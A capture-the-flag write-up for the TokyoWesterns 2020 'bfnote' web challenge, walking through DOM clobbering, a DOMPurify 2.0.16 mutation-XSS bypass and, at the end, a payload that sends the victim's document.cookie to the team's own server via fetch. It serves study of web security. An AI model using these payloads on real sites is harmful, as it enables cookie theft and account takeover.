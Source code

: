 TokyoWesterns 2020 is over and was awesome.
Many amazing challenges of all kind, in this write up I will explain how we (Magnum) solved "bfnote", a well-written web challenge.
Spoiler - it was not the intended solution ;)

# BFNOTE

### Problem

Share your best Brainf*ck code at [bfnote](https://bfnote.chal.ctf.westerns.tokyo/)

Browsing the page presents us with a nice <textarea> and a submit button.
After posting a note we are being redirected to the page that presentes the note itself with a nice "report" button.
An XSS challenge with a Brainf*ck twist, that should be fun . . .

We quickly check the sources of these pages, giving us a little more information about what's going on...

1. /js/bf.js
2. /index.php?source

---

### <u>/js/bf.js</u>

---

A neat Javascript that is responsible of decoding and interpreting the Brainf*ck note.

```javascript
let program, pc, buf, p;
let statusCode = 0; // 0: not running, 1: running, 2: exit successfully, 3: exit with an error
let output = '';
let steps = 0;
const maxSteps = 1000000;

function checkStep() {
  steps++;
  if (steps > maxSteps) {
    throw new Error('maximum steps exceeded')
  }
}

function pinc() {
  p++;
}

function pdec() {
  p--;
}

function inc() {
  buf[p]++;
}

function dec() {
  buf[p]--;
}

function putc() {
  output += String.fromCharCode(buf[p]);
}

function getc() {
  console.err('not implemented');
}

function lbegin() {
  if (buf[p] === 0) {
    let i = pc+1;
    let depth = 1;
    while (i < program.length) {
      if (program[i] === '[') {
        depth++;
      }
      if (program[i] === ']') {
        depth--;
        if (depth === 0) {
          break;
        }
      }

      i++;
      checkStep();
    }

    if (depth === 0) {
      pc = i;
    }
    else {
      throw new Error('parenthesis mismatch')
    }
  }
}

function lend() {
  if (buf[p] !== 0) {
    let i = pc-1;
    let depth = 1;
    while (0 <= i) {
      if (program[i] === ']') {
        depth++;
      }
      if (program[i] === '[') {
        depth--;
        if (depth === 0) {
          break;
        }
      }

      i--;
      checkStep();
    }

    if (depth === 0) {
      pc = i;
    }
    else {
      throw new Error('parenthesis mismatch')
    }
  }
}

function writeOutput() {
  if (statusCode !== 3) {
    if (CONFIG.unsafeRender) {
      document.getElementById('output').innerHTML = output;
    } else {
      document.getElementById('output').innerText = output;
    }
  }
}

function initProgram() {
  // load program
  program = document.getElementById('program').innerText;
  document.getElementById('program').innerHTML = DOMPurify.sanitize(program).toString();

  // initialize
  pc = 0;
  buf = new Uint8Array(30000);
  p = 0;

  statusCode = 0;
}

function runProgram() {
  statusCode = 1;
  try {
    while (pc < program.length) {
      switch (program[pc]) {
        case '>':
          pinc();
          break;
        case '<':
          pdec();
          break;
        case '+':
          inc();
          break;
        case '-':
          dec();
          break;
        case '.':
          putc();
          break;
        case ',':
          getc(); // not implemented
          break;
        case '[':
          lbegin();
          break;
        case ']':
          lend();
          break;
        case '=':
          console.log('=)');
          break;
        case '/':
          console.log(':/');
          break;
        case ' ':
          break;
        default:
          throw new Error(`invalid op: ${program[pc]}`)
      }
  
      pc++;
      checkStep();
    }

    CONFIG = window.CONFIG || {
      unsafeRender: false
    };

    statusCode = 2;
  }
  catch {
    statusCode = 3;
    return;
  }
  // no xss please
  output = output.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
  writeOutput();
}

window.addEventListener('DOMContentLoaded', function() {
  initProgram();
  runProgram();
});
```

A few things we thought are worth mentioning:

- initProgram takes our (escaped) note (using `innerText` thus making it unescaped) and passes it through `DOMPrufiy.sanitize`, which **should** make it impossible to inject any malicious tag that results in javascript execution.
- If runProgram catches an exception while parsing the note - it **will not** write the output to the page.
- Before calling `writeOutput()`, every `<, >` will be escaped.
- if window.CONFIG is present, and it's unsafeRender member **evaluates to true** - the output will be appended to the page using `innerHTML` instead of `innerText`.
  First thing that comes to mind is obviously - **`Dom Clobbering Attack`**.

I will not go over the rules of Brainf\*ck, but I will note that this javascript interpreter will throw an exception if an illegel Brainf\*ck character is in the note, **unless** it is inside a Brainf\*ck loop (surrounded by `[]`).

To make things easier, we wrote a little Python script that encodes a given string as a Brainf\*ck script:

```python
def encode(string):
	p = 0
	output = ''
	for i in string:
		output += p * "-"
		output += ord(i) * "+" + "."
		p = ord(i)
	return output
```

That was the easiest way doing it, but hardly the most efficient way ;)

---

### /<u>index.php</u>

---

```php
<?php
require 'config.php';

header('X-Frame-Options: DENY');

$action = $_SERVER['REQUEST_METHOD'];

$db = new SQLite3('/tmp/db.sqlite3');
$db->exec('create table if not exists notes (id text, content text)');

if ($action === 'POST') {
  $content = $_POST['content'];
  $id = bin2hex(random_bytes(8));

  $content = preg_replace('/[^a-zA-Z0-9<>\[\]+-.,=\/\n\ ]/', '', $content);
  $content = str_replace('<', '&lt;', $content);
  $content = str_replace('>', '&gt;', $content);

  $stmt = $db->prepare('insert into notes values (:id, :content)');
  $stmt->bindValue(':id', $id, SQLITE3_TEXT);
  $stmt->bindValue(':content', $content, SQLITE3_TEXT);
  $stmt->execute();

  header("Location: /?id=${id}");
} else if ($action === 'GET') {
  if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    exit();
  }

  if (!empty($_GET['id'])) {
    $id = $_GET['id'];
  
    $stmt = $db->prepare('select content from notes where id=:id');
    $stmt->bindValue(':id', $id, SQLITE3_TEXT);
    $res = $stmt->execute()->fetchArray(SQLITE3_ASSOC);

    if (empty($res)) {
      header('Location: /');
    }
  
    $content = $res['content'];
  }
}
?>
<!doctype html>
<html>
  <head>
    <title>bfnote</title>
<?php
  if (!empty($_GET['id'])) {
?>
    <script src="/js/bf.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.16/purify.min.js"></script>
    <script src="https://www.google.com/recaptcha/api.js"></script>
<?php
  }
?>
  </head>
  <body>
<?php
  if (empty($_GET['id'])) {
?>
    <!-- <a href="/?source">source</a> -->
    <form action="." method="post">
      <textarea name="content"></textarea>
      <input type="submit" value="share!"></input>
    </form>
<?php
  } else {
?>
    <script>
      function onSubmit(token) {
        fetch(`/report.php`, {
          method: 'post',
          headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
          },
          body: `id=<?=$id?>&token=${token}`,
        }).then(r => r.json()).then(d => {
          if (d['success']) {
            alert('successfully shared');
          }
          else {
            alert(`error: ${d['msg']}`);
          }
        })
      }
    </script>
    <div id="program"><?=$content?></div>
    <div id="output"></div>
    <form id="share">
      <button class="g-recaptcha" data-sitekey="<?=$SITE_KEY?>" data-callback="onSubmit">report</button>
    </form>
<?php
  }
?>
  </body>
</html> 
```

Going over the sources, it was clear that SQLi was not the way to go for this one.
That's nice, we understand a a little bit more about what's going on.
After inspecting this file, a few leads came to mind that I thought should be mentioned here.

- `/js/bf.js` is loaded **before** `purify.min.js` creating a possible undefined behavior.
- There is no `exit()` after setting the `Location` header, the body is sent along with the redirect response.
  We also noticed that there is a Javascript injection in the response if we set `?id` to a malicious payload.
  This is unfortunately not exploitable as the browser does not render the response's body if a `302` status is sent from the server.
- Using HPP, we can set `content` to an array, causing a weird behavior which is also not exploitable.

---

## Mutating HTML

Notice the `DOMPurify.sanitize()` on our note's `innerText` that's being then re-added as `innerHTML` to the program div in `initProgram()`. Because we get the `innerText`, the `><` that were escaped in the php code (in `content`) are now "un-escaped" again so DOMPurify parses them as legit HTML tags!

The main problem now is that `DOMPurify.sanitize` is a double edged sword: it lets us inject HTML, but it pretty much prevents us from doing anything other than that clobbering attack...
Pretty quickly we managed to get the `DOM Clobbering` working so we can trigger the `innerHTML` flow:

```html
<form id="CONFIG"><input type="text" id="unsafeRender"></input></form>
```

Quick search about `DOMPurify` vulnerabilities and exploits brings up this article:

- https://research.securitum.com/dompurify-bypass-using-mxss/

This is a very interesting idea, trying the suggested payload gives us something interesting:

```html
<!-- payload -->
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">

<!-- DOMPurify.sanitize's output -->
<div id="program">
    <svg></svg>
    <p></p>
    <style><a id=</style>
    <img src="1">
    &gt;
</div>
```

Sadly, not an XSS for us **BUT** there is a new <style> element in the page now! Trying to simply post a <style></style> note results in an empty output from `sanitize`, so, is it interesting? Consider the next payload:

```html
<svg></p><style id=output><a id="</style><img src=1 onerror=alert(1)>">
```

Posting this payload will result in a new <style> element with the `id` "output"!
The first slightly interesting thing we managed to get - **CSS Injection**

```html
[<svg></p><style id=output><a id="</style><img src=1 onerror=alert(1)>">]
```

Followed by the output of:

```python
print encode("html{background-color: blue}")
```

Nice, if only the flag was an attribute of an element on the page, we could leak it! ;)

## The solution

At this point, we decided to look a little more into `DOMPurify`, visiting the project's Git page!
Interestingly enough, `bfnote` uses `/dompurify/2.0.16/purify.min.js` while the official git page lists **`2.0.17`** as the Latest release!

Let's have a look at the changelog!
https://github.com/cure53/DOMPurify/compare/2.0.16...2.0.17

Specifically:
https://github.com/cure53/DOMPurify/compare/2.0.16...2.0.17#diff-f44bc3a1bfaa31000b8f4f1359dba82a

Hmm... seems like the library is not perfect just yet, and that the version used in this challenge is still vulnerable to some mXSS!
Finally, we craft a neat payload that successfully appends a tag with malicious attributes!

```html
<math><mtext><table><mglyph><style><div><img src=x onerror=tttt>CLICKME</div>
<!-- DOMPurify.sanitize's output -->
<div id="program">
    <math>
        <mtext>
            <mglyph>
                <style></style>
            </mglyph>
            <div>
                <img src="x" onerror="tttt">CLICKME
            </div>
            <table></table>
    </mtext>
    </math>
</div>
```

Quickly checking the browser's console: `Uncaught ReferenceError: tttt is not defined`
Wohoo! From this point it was simply putting it all together to get it over the line:

```html
[<math><mtext><table><mglyph><style><div><img src=x onerror=share.outerHTML+=window.output.innerText>CLICKME</div>][<form id="CONFIG"><input type="text" id="unsafeRender"></input></form>]
```

Followed by the output of:

```python
print encode("<img src=x onerror='fetch(\"magnumctf.com/\" + btoa(document.cookie))'>")
```

And there you have it: **`flag=TWCTF{reCAPTCHA_Oriented_Programming_with_XSS!}`**
reCaptcha what? HUH? oops...
